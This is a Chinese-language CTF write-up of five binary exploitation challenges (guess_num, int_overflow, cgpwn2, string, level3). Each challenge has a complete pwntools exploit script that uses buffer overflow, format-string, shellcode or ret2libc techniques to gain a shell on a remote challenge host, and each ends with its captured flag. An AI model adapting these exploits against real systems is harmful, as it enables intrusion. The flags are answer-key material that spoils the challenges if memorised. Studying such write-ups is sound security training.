 # guess_num

看一下文件信息

![输入图片说明](image/27e6646e859e4da4a5c4a829fc7a8af0.png)

利用gets函数将seed[0]给覆盖掉

![输入图片说明](image/685338352b604491bd4faf4cd1e4ecb3.png)

![输入图片说明](image/16af0b91ae724300a18804aa068944da.png)

距离0x20

![输入图片说明](image/bf95d8f9913c422ebed773b58aca0bb6.png)

我们需要输入十次随机数产生的值

![输入图片说明](image/fbb0245251354ed797883d273d24dc01.png)

写一个c程序先预判当seed是a的时候产生的随机数分别是多少

![输入图片说明](image/94ca822655154e01a9a82a8e40d8ed6d.png)

payload

```csharp
from pwn import*
from ctypes import*
context.log_level='debug'

r=remote("61.147.171.105", 62815)

payload=b'a'*0x20+p64(1)
print(payload)
r.recvuntil('Your name:')
r.sendline(payload)
libc=cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
libc.srand(1)
for i in range(10):
        r.recvuntil('number:')
        r.sendline(str(libc.rand()%6+1))
        
r.interactive()
```

flag：cyberpeace{2e7c160cb62a80184191528b13ddc215}

# int_overflow

看一下文件信息

![输入图片说明](image/c540cd6c44fe40ee850f4fc6f446a09f.png)

找到溢出点strcpy(dest,s)

![输入图片说明](image/cecfe07a45ed410599622b71ebedb18e.png)

best距离栈底0x14

![输入图片说明](image/84c7812154514c208ee8830d90418dbd.png)

这里存在整数溢出，v3最大为255

![输入图片说明](image/ee482ff29ccd4575810bdade83340a53.png)

我们需要返回的地方

![输入图片说明](image/4cdfa8ed6140406794ff2322944bb845.png)

payload

```csharp
from pwn import*

r=remote("61.147.171.105", 54712)

payload = b'a'*0x14 + b'a'*4 + p32(0x0804868B) + b'a'*235
r.sendlineafter("choice:",'1')
r.sendlineafter("username:",'www')
r.sendlineafter("passwd:",payload)
        
r.interactive()
```

flag：cyberpeace{63e478a14fceae29048fee68e5021529}

# cgpwn2

看一下文件信息

![输入图片说明](image/a2b1a4c7a16742a08b012a21184bd9ad.png)

放入ida，把/bin/bash写入name，再利用gets进行栈溢出

![输入图片说明](image/29b509b838da464aafb43ded1a723255.png)

![输入图片说明](image/249e5d18cd4d43b4a21173fca659b4a4.png)

s大小

![输入图片说明](image/9fc6e5d5ef2f49a3a5981d6be9095bf7.png)

![输入图片说明](image/f70d0ede20084c88bc057d77f97a09ee.png)

payload

```csharp
from pwn import*

r=remote("223.112.5.141", 49209)

name_addr = 0x0804A080
system_addr = 0x0804855A
payload = b'a' * (0x26 + 0x4) + p32(system_addr) + p32(name_addr)
r.sendlineafter("please tell me your name\n", '/bin/sh')
r.sendlineafter("hello,you can leave some message here:\n",payload)

        
r.interactive()
```

flag：cyberpeace{55c8bc9b4f3bc2b669a2bb0890542431}

# string

文件信息

![输入图片说明](image/7a71fb9626cc447f85c9dd92eec7acbe.png)

存在格式化字符串

![输入图片说明](image/2dd37f8f6e374e4ca239ce8ba88b7c8e.png)

我们要让他执行到这里

![输入图片说明](image/837508a80f3c4e2984ab02acbbef88aa.png)

![输入图片说明](image/39f7b80e72af45fc86e35216205b1b3d.png)

![输入图片说明](image/8ae812dbe9c04427b46264c05749ba95.png)

![输入图片说明](image/0340b3361f674b0eb16b599a7d48447d.png)

payload

```csharp
from pwn import *

r = remote("223.112.5.141", 60388)

r.recvuntil("secret[0] is".encode())
addr = int(r.recvuntil(b"\n")[:-1], 16)
r.recvuntil("What should your character's name be:\n".encode())
r.sendline("aaa")
r.recvuntil("So, where you will go?east or up?:\n".encode())
r.sendline("east")
r.recvuntil("go into there(1), or leave(0)?:\n".encode())
r.sendline("1")
r.recvuntil("'Give me an address'\n".encode())
r.sendline(str(addr))
r.recvuntil("And, you wish is:\n".encode())
payload = b'a' * 85 + "%7$n".encode()
r.sendline(payload)
shellcode = asm(shellcraft.amd64.linux.sh(), arch="amd64")
print(shellcode)
r.sendline(shellcode)

r.interactive()
```

flag：cyberpeace{7ed4bded12c985f033ff0fdd1a538af6}

# level3

文件信息

![输入图片说明](image/0d1c59cd9abf45188ec5fcd7155d066b.png)

main函数

![输入图片说明](image/d722b6f0233d452d92596e3e60096608.png)

vulnerable_function函数，return read(0, buf, 0x100u);存在溢出

![输入图片说明](image/3f586fa564d64b4688171dfa2b2fb1c6.png)

libc中的函数的相对地址是固定的，要想获取到system函数的地址，可以通过write()函数进行offset计算。
payloa

```csharp
from pwn import *

# 建立远程连接
r = remote("61.147.171.105", 65412)

# 使用ELF执行程序
elf_level3 = ELF('./level3')
elf_libc = ELF('./libc_32.so.6')
# 获得write()plt表地址
write_plt = elf_level3.plt['write']
# 获得write()got表地址
write_got = elf_level3.got['write']
# 获得mian函数实际地址
main_addr = elf_level3.symbols['main']
# 当程序执行到输出'Input:\n'时开始攻击read()函数
r.recvuntil('Input:\n')
# 'a'*(0x88+0x4)：用于填充程序缓冲区及ebp地址，随便什么字符，填满就行
# p32(write_plt)：用于覆盖返回地址，使用plt调用write()函数
# p32(main_addr)：设置write()的返回地址为main()；因为这一步payload只是为了返回write()的got地址，后续的实际攻击还需要继续使用main函数的read()方法，所以write()执行完毕后需要返回到main()
# p32(0)：write()第一个参数，只要转换为p32格式就行
# p32(write_got)：返回write()got表地址，这就是这句payload需要得到的信息
# p32(4)：读入4个字节，也就是write()got表地址
payload_1 = b'a' * (0x88 + 0x4) + p32(write_plt) + p32(main_addr) + p32(0) + p32(write_got) + p32(4)
r.sendline(payload_1)
# 获得write()got表地址
write_got = (u32(r.recv()))
# 计算libc库中的write()地址与level3的write()地址的偏差
libc_py_deviation = write_got - elf_libc.symbols['write']
# 由于偏移是相同的，将偏差值加上libc库中的system地址，便得到了level3中system的实际地址
sys_addr = libc_py_deviation + elf_libc.symbols['system']
# /bin/sh在libc库的位置可以通过string命令配合管道符查看
# strings -a -t x libc_32.so.6 | grep "/bin/sh"
# 计算/bin/sh的实际地址，原理和system一样
binsh_addr = libc_py_deviation + 0x15902b
# 重新返回main函数，再次执行到输出'Input:\n'时，开始第二次攻击
r.recvuntil('Input:\n')
# p32(sys_addr)：覆盖返回地址，跳转到system地址
# p32(0)：覆盖system函数的返回地址，我们目的是获得/bin/sh,所以不care它返回到哪，填充4个字节就行
# p32(binsh_addr)：传入system的参数/bin/sh
payload_2 = b'a' * (0x88 + 0x4) + p32(sys_addr) + p32(0) + p32(binsh_addr)
r.sendline(payload_2)

r.interactive()
```

flag：cyberpeace{550a1e0daec9fc8b9a839c1f36d7eeb7}
